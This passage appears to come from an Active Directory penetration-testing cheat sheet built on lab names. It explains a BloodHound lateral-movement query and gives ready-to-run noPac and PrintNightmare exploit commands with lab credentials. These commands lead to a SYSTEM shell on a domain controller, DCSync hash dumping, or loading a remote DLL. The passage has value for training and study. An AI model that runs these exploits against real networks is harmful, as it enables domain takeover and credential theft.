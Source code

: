  * **What it does:** This is a Cypher query for the BloodHound GUI. It searches for the shortest path where a user, through one or more nested groups, gains `CanPSRemote` (WinRM) access to a computer.
  * **When to use it:** To find clear lateral movement opportunities. Instead of manually checking if your user is in a group that's in another group that has admin rights, this query does it for you automatically.
  * **Example in practice:** Copy and paste this query into the search bar in the BloodHound GUI after you've imported your data.

-----

## Bleeding Edge

These are the high-impact exploits. They often target specific unpatched vulnerabilities or misconfigurations in advanced AD components like Certificate Services. A successful attack in this category can often take you from a low-privileged user to Domain Admin in a single chain. 🔪

### noPac / SAM the Admin (CVE-2021-42287 & CVE-2021-42278)

This attack chain abuses two vulnerabilities to escalate from any standard user to Domain Admin. It involves creating a machine account, renaming it to match a Domain Controller's name (minus the final `$`), and then requesting a Kerberos ticket.

#### `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:'Klmcargo2' -dc-ip 172.16.5.5 -shell`

  * **What it does:** This script automates the entire noPac exploit chain. It uses the provided user credentials (`forend`) to authenticate, exploits the vulnerabilities to get a ticket as a Domain Admin, and then uses that ticket to launch a semi-interactive shell running as `SYSTEM` on the Domain Controller.
  * **When to use it:** When you have standard user credentials and have confirmed (using the `scanner.py` script) that the Domain Controllers are not patched against these specific vulnerabilities.
  * **Example Command:**
    ```shell
    sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:'Klmcargo2' -dc-ip 172.16.5.5 --impersonate administrator -shell
    ```
  * **Options:**
      * `--impersonate administrator`: Specifies the user to impersonate. `administrator` is a common choice.
      * `-shell`: After successfully exploiting, provides an interactive shell on the DC.
      * `-dump`: Can be used instead of `-shell` to perform a DCSync and dump all domain hashes.

-----

### PrintNightmare (CVE-2021-1675)

This vulnerability in the Windows Print Spooler service allows any authenticated user to remotely execute code as `SYSTEM` on a vulnerable machine, including a Domain Controller.

#### `sudo python3 CVE-2021-1675.py inlanefreight.local/forend:'Klmcargo2'@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'`
